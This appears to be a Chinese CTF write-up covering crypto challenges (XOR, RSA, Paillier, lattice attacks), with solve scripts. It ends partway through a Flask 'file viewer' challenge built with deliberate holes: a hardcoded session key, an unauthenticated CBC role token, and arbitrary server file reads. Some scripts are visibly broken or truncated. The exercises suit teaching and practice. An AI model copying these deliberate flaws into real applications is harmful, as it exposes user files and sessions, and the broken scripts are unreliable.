



## Crypto

### 循环锁链

```txt
11 0D 19 0E 12 2A 74 42 31 2B 25 00 07 0C 16 39
27 21 03 00 28 0D 27 20 26 2C 19 00 0C 3B 04 39
22 19 52 44 0D

```

#### 还原思路简述

1. **加密逻辑猜测**
   题面提示“每个字节被锁在一个无尽的循环中”，很像典型的环形 XOR：

   ```text
   c[i] = p[i] ⊕ p[(i+1) mod N]          (0 ≤ i < N)
   ```

   其中 `p` 为明文，`c` 为给出的 37 字节密文。

2. **利用已知前缀定位“起点”**
   已知 flag 以 `palu{` 开头。
   若把某个位置 `s` 假设为明文首字节 `p[0]='p'`，则

   ```txt
   p[1] = c[s]   ⊕ p[0]
   p[2] = c[s+1] ⊕ p[1]
   ……
   ```

   只要 `p[1..4]` 依次等于 `a l u {`，就找到了正确的起点。

3. **逐字推导并自洽校验**
   唯一满足条件的就是 `s = 0`。继续按公式迭代，可得到完整明文串，最后再检查末尾环路条件
   `c[N-1] = p[N-1] ⊕ p[0]`
   成立，说明推导一致。

4. **结果**
   于是得 flag。

```txt
palu{iC7uDoJJMAWnIhkkCNiIoCZZVmiPrk9}
```

---

### 轮回密码

```py
import base64


def samsara_encrypt(text, key_word):
    cycle_step = len(key_word) % 6 + 1

    phase1 = bytes([(c >> cycle_step) | ((c << (8 - cycle_step)) & 0xFF) for c in text])

    phase2 = base64.b85encode(phase1)

    phase3 = bytes([(c >> cycle_step) | ((c << (8 - cycle_step)) & 0xFF) for c in phase2])

    return bytes([phase3[i] ^ key_word[i % len(key_word)] for i in range(len(phase3))])


if __name__ == "__main__":
    flag = b"palu{********}"  # 可替换flag
    key = b""
    cipher = samsara_encrypt(flag, key)

    # 修复点：使用latin-1编码处理二进制数据
    print("轮回密文:", cipher.decode('latin-1'))  # 输出示例：¨×èÄÅÉØÛÚ

```

密文：
79 C2 A6 C2 81 5F C2 9B 36 19 3E 58 C2 AC 79 C2
96 21 2C 21 6E C2 A1 6D 53 1F 61 C3 9C C3 B1 C3
BC C3 AB 15 18 C2 97 39 C2 BC 11 36 C2 99 0A

提示1：zQL0AmL5D2NvD2NuAQR6ZwZk
提示2：key；Bore
解出其中palu{xxx}

- **解析思路**

1. **还原真实密文字节**
   题面给出的 16 进制串其实是把高位字节（≥ 0x80）的 UTF-8 前缀 `0xC2/0xC3` 一并写了出来。
   去掉这些前缀并做对应还原后得到 33 字节密文：

   ```txt
   79 A6 81 5F 9B 36 19 3E 58 AC 79 96 21 2C 21
   6E A1 6D 53 1F 61 DC F1 FC EB 15 18 97 39 BC
   11 36 99
   ```

2. **利用提示确定密钥与轮转位数**

   - 提示 2：`key；Bore` ⇒ 密钥 `b"Bore"`
   - 轮转位数 `cycle_step = len(key) % 6 + 1 = 4 % 6 + 1 = 5`

3. **按加密流程逆向**

   ```python
   import base64

   cipher = bytes.fromhex(
       "79A6815F9B36193E58AC7996212C216EA16D531F61DCF1FCEB15189739BC113699"
   )

   key = b"Bore"
   step = 5

   # ⬇ Phase 3 → Phase 2（去掉异或，再左旋 5 位）
   phase3 = bytes(c ^ key[i % len(key)] for i, c in enumerate(cipher))
   rotl = lambda b, n: ((b << n) & 0xFF) | (b >> (8 - n))
   phase2 = bytes(rotl(b, step) for b in phase3)

   # ⬇ Phase 2 → Phase 1（Base85 解码）
   phase1 = base64.b85decode(phase2)

   # ⬇ Phase 1 → 明文（再次左旋 5 位）
   flag = bytes(rotl(b, step) for b in phase1).decode()
   print(flag)      # palu{reincarnation_cipher}
   ```

4. **得到结果**

```txt
palu{reincarnation_cipher}
```

---

### RSA_Quartic_Quandary

```py
from Crypto.Util.number import getPrime, bytes_to_long
import math

FLAG = b'**************'


def generate_parameters(bit_length=512):
    p = getPrime(bit_length)
    q = getPrime(bit_length)
    n = p * q
    e = 65537
    phi = (p - 1) * (q - 1)
    d = pow(e, -1, phi)
    s = p ** 4 + q ** 4
    return n, e, d, s, p, q


def main():
    n, e, d, s, p, q = generate_parameters()
    c = pow(bytes_to_long(FLAG), e, n)

    with open('output.txt', 'w') as f:
        f.write(f"n = {n}\n")
        f.write(f"e = {e}\n")
        f.write(f"c = {c}\n")
        f.write(f"s = {s}\n")

    print("[+] Parameters saved to output.txt")


if __name__ == "__main__":
    main()
```

```txt
n = 125997816345753096048865891139073286898143461169514858050232837657906289840897974068391106608902082960171083817785532702158298589600947834699494234633846206712414663927142998976208173208829799860130354978308649020815886262453865196867390105038666506017720712272359417586671917060323891124382072599746305448903
e = 65537
c = 16076213508704830809521504161524867240789661063230251272973700316524961511842110066547743812160813341691286895800830395413052502516451815705610447484880112548934311914559776633140762863945819054432492392315491109745915225117227073045171062365772401296382778452901831550773993089344837645958797206220200272941
s = 35935569267272146368441512592153486419244649035623643902985220815940198358146024590300394059909370115858091217597774010493938674472746828352595432824315405933241792789402041405932624651226442192749572918686958461029988244396875361295785103356745756304497466567342796329331150560777052588294638069488836419744297241409127729615544668547101580333420563318486256358906310909703237944327684178950282413703357020770127158209107658407007489563388980582632159120621869165333921661377997970334407786581024278698231418756106787058054355713472306409772260619117725561889350862414726861327985706773512963177174611689685575805282
```

#### 解题思路

给出的额外信息

$$
s = p^{4}+q^{4}
$$

使得 $p,q$ 可以直接从公开参数中恢复：

1. 记

   $$
   N = pq,\qquad x = p+q .
   $$

2. 由恒等式

   $$
   p^{4}+q^{4}
   = (p^{2}+q^{2})^{2}-2(pq)^{2}
   = (x^{2}-2N)^{2}-2N^{2}
   = x^{4}-4Nx^{2}+2N^{2},
   $$

   得到关于 $x^{2}$ 的二次方程

   $$
   z^{2}-4Nz+(2N^{2}-s)=0,\qquad z=x^{2}.
   $$

3. 显式求根：

   $$
   z = 2N \pm\sqrt{\,2N^{2}+s\,}.
   $$

   由于所有数均为整数，可直接用 **整数平方根** 判断哪一支给出完美平方，再开方得到 $x$。

4. 由 $p+q=x,\;pq=N$ 求得

   $$
   p,q = \frac{x \pm \sqrt{x^{2}-4N}}{2}.
   $$

5. 计算

   $$
   \varphi(N)=(p-1)(q-1),\qquad d \equiv e^{-1}\pmod{\varphi(N)},
   $$

   并解密

   $$
   m = c^{\,d}\bmod N.
   $$

---

#### 复现计算（Python 摘要）

```python
from Crypto.Util.number import long_to_bytes, inverse
from math import isqrt

# --- 公开数据 ---
N = 1259978163457...448903
e = 65537
c = 1607621350870...272941
s = 3593556926727...364197442972414091277296155446685471015803334205633184862563589063109097032379443276841789502824137033570207701271582091076584070074895633889805826321591206218691653339216613779979703344077865810242786...  # 仅截断显示

# --- 利用 s 求 p, q ---
r = isqrt(2 * N * N + s)        # √(2N²+s)
z = 2 * N + r                    # x²
x = isqrt(z)                     # p+q
d_sqr = x * x - 4 * N
p = (x + isqrt(d_sqr)) // 2
q = (x - isqrt(d_sqr)) // 2

# --- 解密 ---
phi = (p - 1) * (q - 1)
d = inverse(e, phi)
m = pow(c, d, N)
flag = long_to_bytes(m).decode()
print(flag)
```

输出即

```
palu{This_is_a_fake_flag_change_it_for_real_use}
```

### 欧几里得

```py
import random
import os
from Crypto.Util.number import *
from gmpy2 import lcm, gcd
def exgcd(a, b):
    if b == 0: return 1, 0
    x, y = exgcd(b, a%b)
    return y, x - a//b*y


def get_k():
    while True:
        p = getPrime(512)
        q = getPrime(512)
        phi = (p - 1) * (q - 1)
        if gcd(p * q, phi) == 1:
            break
    n = p * q
    while True:
        g = random.randint(1, n * n)
        if gcd((g - 1) // n, n) == 1:
            break
    return (n, g), (p, q)


def Paillier_encode(m, g, n):
    while True:
        r = random.randint(1, n - 1)
        if gcd(r, n) == 1:
            break
    return (pow(g, m, n * n) * pow(r, n, n * n)) % (n * n)


def Paillier_decode(c, p, q, g, n):
    lam = lcm(p - 1, q - 1)
    mi = exgcd((pow(g, lam, n * n) - 1) // n, n)[0] % n
    return (pow(c, lam, n * n) - 1) // n * mi % n


pk, sk = get_k()
n, g = pk
p, q = sk
m1 = bytes_to_long(flag)
m2 = bytes_to_long(os.urandom(2) * 35)
c1 = Paillier_encode(m1, g, n)
c2 = Paillier_encode(m2, g, n)
print(f'c = {Paillier_decode(c1 * c2, p, q, g, n)}')

# c = 1426774899479339414711783875769670405758108494041927642533743607154735397076811133205075799614352194241060726689487117802867974494099614371033282640015883625484033889861
```

**解题思路简述**

1. **利用 Paillier 的加法同态**

   - `c1` 和 `c2` 分别是明文 `m1`（flag）和随机数 `m2` 的密文。
   - 在 Paillier 中，密文相乘对应明文相加：

     $$
        \text{Dec}(c_1\cdot c_2) \;=\; m_1 + m_2 \pmod{n}
     $$
   - 由于 `n` 是 1024 位，而

     - `m1` 只有几十字节（flag），
     - `m2` 由 70 字节组成（≤ 560 bit），
     - 所以 $m_1 + m_2 < n$，同余实际上就是普通加法。
       打印出的

     ```python
     c = 1426774899...
     ```

     就是 **明文** 的整数值：$c = m_1 + m_2$。

2. **利用 `m2` 的特殊结构**

   ```python
   m2 = bytes_to_long(os.urandom(2) * 35)
   ```

   `os.urandom(2)` 生成两个随机字节 `(b0, b1)`，然后重复 35 次得到 70 字节

   ```
   [b0, b1, b0, b1, …]  (共 35 组)
   ```

   因而 `m2` 只可能有 $256^2 = 65 536$ 种取值，可全部穷举。

3. **枚举两字节并验证候选 flag**

   - 对每一种 $(b0, b1)$，构造同样的 70 字节序列求其整数 `m2`；
   - 计算 `m1 = c - m2`；
   - 把 `m1` 转成字节并检测是否是可打印 ASCII、是否形如 `flag{...}` / `palu{...}`。
   - 仅出现 **唯一** 合法可打印结果，即为 flag。

```python
from Crypto.Util.number import bytes_to_long, long_to_bytes

c = 1426774899479339414711783875769670405758108494041927642533743607154735397076811133205075799614352194241060726689487117802867974494099614371033282640015883625484033889861

for b0 in range(256):
    for b1 in range(256):
        m2 = bytes_to_long(bytes([b0, b1]) * 35)
        m1 = c - m2
        if m1 < 0:
            continue
        s = long_to_bytes(m1)
        try:
            t = s.decode()
        except UnicodeDecodeError:
            continue
        if t.startswith(("flag{", "palu{")) and t.endswith("}"):
            print(t)   # 唯一输出
```

**运行结果**

```txt
palu{48b635a7a2474ef743e333478b67a2f5}
```

### 易如反掌

```py
import gmpy2
from Crypto.Util.number import getPrime
import hashlib

primes = [(getPrime(1024), getPrime(1024)) for _ in range(4)]
N = [p * q for p, q in primes]
PHI = [(p**2 - 1) * (q**2 - 1) for p, q in primes]
d = getPrime(800)
flag = "palu{" + hashlib.md5(str(d)[].encode()).hexdigest() + "}"
E = [int(gmpy2.invert(d, PHI[i])) for i in range(4)]
print(N)
print(E)
# [23796646026878116589547283793150995927866567938335548416869023482791889761195291718895745055959853934513618760888513821480917766191633897946306199721200583177442944168533218236080466338723721813833112934172813408785753690869328477108925253250272864647989241887047368829689684698870160049332949549671046125158024445929082758264311584669347802324514633164611600348485747482925940752960745308927584754759033237553398957651216385369140164712159020014009858771182426893515016507774993840721603911101735647966838456333878426803669855790758035721418868768618171692143354466457771363078719423863861881209003100274869680348729, 19552522218179875003847447592795537408210008360038264050591506858077823059915495579150792312404199675077331435544143983146080988327453540449160493126531689234464110427289951139790715136775261122038034076109559997394039408007831367922647325571759843192843854522333120187643778356206039403073606561618190519937691323868253954852564110558105862497499849080112804340364976236598384571278659796189204447521325485338769935361453819608921520780103184296098278610439625935404967972315908808657494638735904210709873823527111315139018387713381604550946445856087746716671838144925662314348628830687634437271225081272705532826343, 20588310030910623387356293638800302031856407530120841616298227518984893505166480372963166394317326422544430837759332223527939420321960057410073228508230111170414845403161052128790464277007579491219950440477721075788978767309211469555824310913593208232853272958011299985202799390532181335087622499894389777412111445377637396650710486263652440053717323053536700098339137819966260269752816515681602936416736576044630343136577023173210517247609888936337876211461528203642347119434700140264859102502126842250671976238033270367185358966766106988830596616311824691409766437473419074865115209866730272194297815209976737570183, 18468380817178794606027384089796802449939260582378979728469492439450780893746976934315768186829245395964644992296264093276556001477514083927556578752836255491334765496791841945178275793885002188397918857222419803612711637177559554489679414049308077300718317502586411333302434329130562745942681716547306138457088216901181646333860559988117376012816579422902808478175975263110581667936249474308868051767856694498210084853797453949193117835061402537058150493808371384063278793041752943930928932275052745657700368980150842377283198946138726219378646040515809994704174471793592322237777371900834531014326150160506449286179]
# [229904181453273080302209653709086531153804577507365859149808244958841045687064628362978517491609413507875726243121473678430010600891588643092042173698830147997497783886459583186019270582236955524620567373560535686287255124958954671737097645556109314142383275516997850786599322033792080045303427363366927030304214333894247469120513426641296678531965795930756543043851154646310114366477311633838078242963665452936523438928643273392454483600446242320078010627755587492056369779661382734170244060951095344418599686788550312205964136120979823565225768814898285224838691541122088693411388097496320157113230752327025862802020421665288007529320920942060329299409362236414929126050037144149017275031336018100081931062647888329912802477032857776085190828105602067426203163344931483638271679183910241511044338001446584634203146294743522375846913845041274967653508735863706778364499099286484552570083394223973734909997825522191349543295855925973354640349809770822075226834555111927586299176453943116511915434890643239957459427390624136283086434711471863737451011157026905191204496081860277138227247744470804087252965368757930797560277881668806206419629425126031049566579233056222579590529869798537893505779097868221221068867624660759084762471141, 374749619911728044650812367560174497001343067563440477135516664935394734686391543012901514676044211541958613458868769659861216149364768233000844624035620893309356372294598009760824255187442531508754966566917198975934706398309982525100772311586501118200858124845012643495006029930202324305874402291277845166060497038915773767003006049720519011634861166208163030159519901867416488082395270295488885724507937683469910251316231210838654273986152493722244271430422693265608430755620420680629979226285393465423870727975987787149515374769359243334743541460110042872587610309611770320600248289328406805995688596910226273861759369388105641549933915686192055533242723330981192183310876306968103333706140401422550917946410378174896274789619184565321544130428008804628699594759946577979319393247067750024729672029363433673084437510430506410293512293930056667971242862448029841846596288648691077795207341975907335202945548990662460491169957175452745622341245617265849042542964819126377775749222973138584978725470886059043251544634105653274564085280013340679259157119014619894553239015777411757887293044706448625760604242512494466386343040583010961386979963779928616733980046763291988848903515836247301007113187121999960487508948748354549628160741, 111738429639840672983162926852338651562094139707285850255632987705635459657893186493838711733560515475806567653354737245246745810892238414756414117557971683747269900627524702653772058841085258035513296218047505149691384287812041721130367506731427022265277885965948486359682023555050085264531256406043361391744086539522028829421284667293339869140564699750714145488199268791908205712660933607330454849730499840287271163350865799682565216636393526339218836244889719975150503253630419647851422620890082315396457329065508602521784001607236788620811397449483104884860551374031790663030220424841642241965983726516537123807061999084476076850833658360594525986997125319941689903869138176347916707622148840226672408554102717625456819726220575710494929111642866840516339713870850732638906870325693572445316904688582043485093120585767903009745325497085286577015692005747499504730575062998090846463157669448943725039951120963375521054164657547731579771203443617489609201617736584055562887243883898406182052632245189418568410854530995044542628531851356363297989653392057214167031332353949367816700838296651167799441279086074308299608106786918676697564002641234952760724731325383088682051108589283162705846714876543662335188222683115878319143239781, 185935167438248768027713217055147583431480103445262049361952417166499278728434926508937684304985810617277398880507451351333771783039360671467147075085417403764439214700549777320094501151755362122677245586884124615115132430034242191429064710012407308619977881929109092467325180864745257810774684549914888829203014922855369708286801194645263982661023515570231007900615244109762444081806466412714045462184361892356485713147687194230341085490571821445962465385514845915484336766973332384198790601633964078447446832581798146300515184339036127604597014458389481920870330726947546808739829589808006774479656385317205167932706748974482578749055876192429032258189528408353619365693624106394913101463023497175917598944803733849984703912670992613579847331081015979121834040110652608301633876167262248103403520536210279949844194696898862249482809107840303473964914083996538912970715834110371196970613332286296427286356036576876121010776933023901744994067564045429384172315640135483480089769992730928266885675143187679290648773060781987273082229827156531141515679114580622348238382074084270808291251400949744720804368426414308355267344210055608246286737478682527960260877955900464059404976906697164610891962198768354924180929300959036213841843941]
```

```python
from sage.all import *
# 给定的 N 和 E
N = [23796646026878116589547283793150995927866567938335548416869023482791889761195291718895745055959853934513618760888513821480917766191633897946306199721200583177442944168533218236080466338723721813833112934172813408785753690869328477108925253250272864647989241887047368829689684698870160049332949549671046125158024445929082758264311584669347802324514633164611600348485747482925940752960745308927584754759033237553398957651216385369140164712159020014009858771182426893515016507774993840721603911101735647966838456333878426803669855790758035721418868768618171692143354466457771363078719423863861881209003100274869680348729, 19552522218179875003847447592795537408210008360038264050591506858077823059915495579150792312404199675077331435544143983146080988327453540449160493126531689234464110427289951139790715136775261122038034076109559997394039408007831367922647325571759843192843854522333120187643778356206039403073606561618190519937691323868253954852564110558105862497499849080112804340364976236598384571278659796189204447521325485338769935361453819608921520780103184296098278610439625935404967972315908808657494638735904210709873823527111315139018387713381604550946445856087746716671838144925662314348628830687634437271225081272705532826343, 20588310030910623387356293638800302031856407530120841616298227518984893505166480372963166394317326422544430837759332223527939420321960057410073228508230111170414845403161052128790464277007579491219950440477721075788978767309211469555824310913593208232853272958011299985202799390532181335087622499894389777412111445377637396650710486263652440053717323053536700098339137819966260269752816515681602936416736576044630343136577023173210517247609888936337876211461528203642347119434700140264859102502126842250671976238033270367185358966766106988830596616311824691409766437473419074865115209866730272194297815209976737570183, 18468380817178794606027384089796802449939260582378979728469492439450780893746976934315768186829245395964644992296264093276556001477514083927556578752836255491334765496791841945178275793885002188397918857222419803612711637177559554489679414049308077300718317502586411333302434329130562745942681716547306138457088216901181646333860559988117376012816579422902808478175975263110581667936249474308868051767856694498210084853797453949193117835061402537058150493808371384063278793041752943930928932275052745657700368980150842377283198946138726219378646040515809994704174471793592322237777371900834531014326150160506449286179]
E = [229904181453273080302209653709086531153804577507365859149808244958841045687064628362978517491609413507875726243121473678430010600891588643092042173698830147997497783886459583186019270582236955524620567373560535686287255124958954671737097645556109314142383275516997850786599322033792080045303427363366927030304214333894247469120513426641296678531965795930756543043851154646310114366477311633838078242963665452936523438928643273392454483600446242320078010627755587492056369779661382734170244060951095344418599686788550312205964136120979823565225768814898285224838691541122088693411388097496320157113230752327025862802020421665288007529320920942060329299409362236414929126050037144149017275031336018100081931062647888329912802477032857776085190828105602067426203163344931483638271679183910241511044338001446584634203146294743522375846913845041274967653508735863706778364499099286484552570083394223973734909997825522191349543295855925973354640349809770822075226834555111927586299176453943116511915434890643239957459427390624136283086434711471863737451011157026905191204496081860277138227247744470804087252965368757930797560277881668806206419629425126031049566579233056222579590529869798537893505779097868221221068867624660759084762471141, 374749619911728044650812367560174497001343067563440477135516664935394734686391543012901514676044211541958613458868769659861216149364768233000844624035620893309356372294598009760824255187442531508754966566917198975934706398309982525100772311586501118200858124845012643495006029930202324305874402291277845166060497038915773767003006049720519011634861166208163030159519901867416488082395270295488885724507937683469910251316231210838654273986152493722244271430422693265608430755620420680629979226285393465423870727975987787149515374769359243334743541460110042872587610309611770320600248289328406805995688596910226273861759369388105641549933915686192055533242723330981192183310876306968103333706140401422550917946410378174896274789619184565321544130428008804628699594759946577979319393247067750024729672029363433673084437510430506410293512293930056667971242862448029841846596288648691077795207341975907335202945548990662460491169957175452745622341245617265849042542964819126377775749222973138584978725470886059043251544634105653274564085280013340679259157119014619894553239015777411757887293044706448625760604242512494466386343040583010961386979963779928616733980046763291988848903515836247301007113187121999960487508948748354549628160741, 111738429639840672983162926852338651562094139707285850255632987705635459657893186493838711733560515475806567653354737245246745810892238414756414117557971683747269900627524702653772058841085258035513296218047505149691384287812041721130367506731427022265277885965948486359682023555050085264531256406043361391744086539522028829421284667293339869140564699750714145488199268791908205712660933607330454849730499840287271163350865799682565216636393526339218836244889719975150503253630419647851422620890082315396457329065508602521784001607236788620811397449483104884860551374031790663030220424841642241965983726516537123807061999084476076850833658360594525986997125319941689903869138176347916707622148840226672408554102717625456819726220575710494929111642866840516339713870850732638906870325693572445316904688582043485093120585767903009745325497085286577015692005747499504730575062998090846463157669448943725039951120963375521054164657547731579771203443617489609201617736584055562887243883898406182052632245189418568410854530995044542628531851356363297989653392057214167031332353949367816700838296651167799441279086074308299608106786918676697564002641234952760724731325383088682051108589283162705846714876543662335188222683115878319143239781, 185935167438248768027713217055147583431480103445262049361952417166499278728434926508937684304985810617277398880507451351333771783039360671467147075085417403764439214700549777320094501151755362122677245586884124615115132430034242191429064710012407308619977881929109092467325180864745257810774684549914888829203014922855369708286801194645263982661023515570231007900615244109762444081806466412714045462184361892356485713147687194230341085490571821445962465385514845915484336766973332384198790601633964078447446832581798146300515184339036127604597014458389481920870330726947546808739829589808006774479656385317205167932706748974482578749055876192429032258189528408353619365693624106394913101463023497175917598944803733849984703912670992613579847331081015979121834040110652608301633876167262248103403520536210279949844194696898862249482809107840303473964914083996538912970715834110371196970613332286296427286356036576876121010776933023901744994067564045429384172315640135483480089769992730928266885675143187679290648773060781987273082229827156531141515679114580622348238382074084270808291251400949744720804368426414308355267344210055608246286737478682527960260877955900464059404976906697164610891962198768354924180929300959036213841843941]
# 构造格
M = 2^1000  # 放大系数
B = Matrix(ZZ, [
    [M, E[0], E[1], E[2], E[3]],
    [0, -N[0]^2, 0, 0, 0],
    [0, 0, -N[1]^2, 0, 0],
    [0, 0, 0, -N[2]^2, 0],
    [0, 0, 0, 0, -N[3]^2],
])

# LLL 规约
B = B.LLL()
# 检查是否有 d 的解
for row in B:
    if row[0] % M == 0:
        d_candidate = abs(row[0] // M)
        if 1 < d_candidate < 2^800:  # d 是 800-bit
            print("Found d:", d_candidate)
            break
#https://cocalc.com/features/sage
```

得到D之后使用脚本解密

```python
import hashlib

d = 4179423138350648633511603754580428752783447242202659775128505849773750010739782037758703319498715813081743032947622794072010600485826874110735478135715298345482643471515080914168066457318628922553866888869769462396548904235402414462199207661

from hashlib import md5
f = f"palu{{{md5(str(d).encode()).hexdigest()}}}"
print(f)

```

```txt
palu{b1fc01a38bae760451bcffe777e51b1d}
```

### 文件查看器

```python
from flask import Flask, render_template, request, redirect, url_for, session, flash, send_from_directory, make_response
import os
from gmssl import sm4


def xor(byte1, byte2):
    result = bytes(x ^ y for x, y in zip(byte1, byte2))
    return result


key = os.urandom(16)
iv = os.urandom(16)
sm4_encryption = sm4.CryptSM4()

app = Flask(__name__, template_folder='templates', static_folder='static')
app.secret_key = b'palupalupalupalupalupalupalupalupalu' 
# 保留原始的用户数据访问对象 (DAO)
class UserDAO(object):
    def __init__(self):
        self.users: dict[str, str] = {}

    def getPassword(self, uid: str) -> str:
        if uid not in self.users:
            raise Exception('用户不存在')
        return self.users[uid]

    def create(self, uid: str, password: str):
        if uid in self.users:
            raise Exception('用户已注册')
        self.users[uid] = password
        return

DAO = UserDAO()
DAO.create('demoUser', '123456')

# --- Flask 路由 --- 

@app.route('/')
def index():
    if 'uid' in session:
        return redirect(url_for('profile'))
    return redirect(url_for('login'))

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        uid = request.form.get('uid')
        if 'admin' in uid:
            flash('不可以是admin哦', 'error')
            return redirect(url_for('register'))
        password = request.form.get('password')
        confirm_password = request.form.get('confirm_password')

        if not uid or not password:
            flash('用户ID和密码不可为空', 'error')
            return redirect(url_for('register'))

        if password != confirm_password:
            flash('两次输入的密码不一致', 'error')
            return redirect(url_for('register'))

        try:
            DAO.create(uid, password)
            flash('注册成功，请登录', 'success')
            return redirect(url_for('login'))
        except Exception as e:
            flash(str(e.args[0]), 'error')
            return redirect(url_for('register'))

    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        uid = request.form.get('uid')
        password = request.form.get('password')

        if not uid or not password:
            flash('用户ID和密码不可为空', 'error')
            return redirect(url_for('login'))

        try:
            stored_password = DAO.getPassword(uid)
            if stored_password != password:
                raise Exception('用户ID或密码错误')

            user_level = 'admin' if uid == 'admin' else 'guest'
            
            sm4_encryption.set_key(key, sm4.SM4_ENCRYPT)
            token_payload = f"{uid}:{user_level}".encode('utf-8')
            token = sm4_encryption.crypt_cbc(iv, token_payload).hex()

            session['uid'] = uid
            flash(f'登录成功，您的 token 是: {token}', 'success')
            # 创建响应对象并设置 cookie
            response = make_response(redirect(url_for('profile')))
            response.set_cookie('auth_token', token, httponly=True, samesite='Lax') # 设置 cookie
            return response

        except Exception as e:
            flash(str(e.args[0]), 'error') # 显示更具体的错误信息
            return redirect(url_for('login'))

    return render_template('login.html')

@app.route('/profile')
def profile():
    if 'uid' not in session:
        return redirect(url_for('login'))
    
    # 可以在这里添加解密 token 显示信息的逻辑，但暂时只显示用户名
    username = session.get('uid')
    return render_template('profile.html', username=username)

@app.route('/logout')
def logout():
    session.pop('uid', None)
    flash('您已成功登出', 'info')
    return redirect(url_for('login'))

@app.route('/file', methods=['GET', 'POST'])
def read_file_page():
    if 'uid' not in session :
        flash('请先登录', 'warning')
        return redirect(url_for('login'))
    print(session)
    
    file_content = None
    error_message = None
    file_path_requested = ''

    if request.method == 'POST':
        token = request.cookies.get('auth_token') # 从 cookie 获取 token
        file_path = request.form.get('path')
        file_path_requested = file_path # 保留用户输入的路径以便回显
        if not file_path:
            error_message = '路径不可为空'
        else:
            try:
                # 保留原始的 SM4 CBC 令牌验证逻辑
                sm4_encryption.set_key(key, sm4.SM4_DECRYPT)
                token_decrypted = sm4_encryption.crypt_cbc(iv, bytes.fromhex(token))
                decrypted_str = token_decrypted.decode('utf-8', errors='ignore') 
                parts = decrypted_str.split(':')[-2:]

                uid_from_token, lv = parts

                if 'admin' in lv:
                    print(f"管理员 {uid_from_token} 尝试读取: {file_path}")
                    try:

                        with open(file_path, 'r', encoding='utf-8') as f:
                            file_content = f.read()
                    except FileNotFoundError:
                        error_message = '文件未找到'
                    except Exception as e:
                        print(f"读取文件错误: {e}")
                        error_message = '读取文件失败'
                else:
                    error_message = '非管理员，无权限读取服务器文件'
            except ValueError as e:
                 error_message = f'token非法: {e}'
            except Exception as e:
                print(f"Token 解密/验证错误: {e}")
                error_message = 'token无效或已过期'

    if error_message:
        flash(error_message, 'error')
        
    return render_template('file_viewer.html', file_content=file_content, file_path_requested=file_path_requested)

# 移除 Flask-RESTX 的 404 处理，使用 Flask 默认或自定义模板
@app.errorhandler(404)
def page_not_found(e):
